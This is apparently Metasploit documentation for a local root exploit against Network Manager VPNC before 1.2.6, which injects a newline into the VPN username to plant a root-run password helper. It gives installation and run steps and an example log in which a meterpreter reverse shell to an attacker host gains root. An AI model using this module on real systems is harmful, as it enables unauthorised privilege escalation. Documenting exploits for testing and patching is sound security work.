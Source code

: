 ## Vulnerable Application

### Description

  This module exploits an injection vulnerability in the Network Manager
  VPNC plugin to gain *root* privileges.

  This module uses a new line injection vulnerability in the configured
  username for a VPN network connection to inject a `Password helper`
  configuration directive into the connection configuration.

  The specified helper is executed by Network Manager as root when the
  connection is started.

  Network Manager VPNC versions prior to 1.2.6 are vulnerable.

  This module has been tested successfully with VPNC versions:

  * 1.2.4-4 on Debian 9.0.0 (x64); and
  * 1.1.93-1 on Ubuntu Linux 16.04.4 (x64).

### Installation

  The following installation instructions are for Ubuntu 16.04.04.

  ```sh
  # List available network-manager-vpnc packages
  apt-cache showpkg network-manager-vpnc

  # Install a vulnerable package
  apt-get install network-manager-vpnc=1.1.93-1
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/network_manager_vpnc_username_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/network_manager_vpnc_username_priv_esc 
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > set lhost 172.16.191.188 
  lhost => 172.16.191.188
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] nmcli utility is installed
  [*] Adding VPN connection...
  [*] Uploading payload...
  [*] Writing '/tmp/.4FCA0Pp4tw' (237 bytes) ...
  [*] Starting VPN connection...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 172.16.191.201
  [+] Deleted /tmp/.4FCA0Pp4tw
  [*] Removing VPN connection...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.201
  OS           : Ubuntu 16.04 (Linux 4.13.0-41-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```
